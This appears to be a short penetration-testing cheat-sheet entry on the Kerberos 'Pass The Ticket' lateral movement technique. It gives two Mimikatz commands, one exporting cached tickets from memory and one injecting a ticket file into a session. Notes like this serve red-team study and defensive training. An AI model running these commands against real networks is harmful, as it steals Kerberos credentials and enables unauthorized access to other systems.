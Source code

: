 # Pass The Ticket

**Pass The Ticket** is a lateral movement technique which uses existing Ticket Granting Service (TGS) to authenticate a service behalf of the victim.

#### extracting cached tickets.

```
sekurlsa::tickets /export
```

#### Passing the ticket.

```
kerberos::ptt ticket.kirbi
```

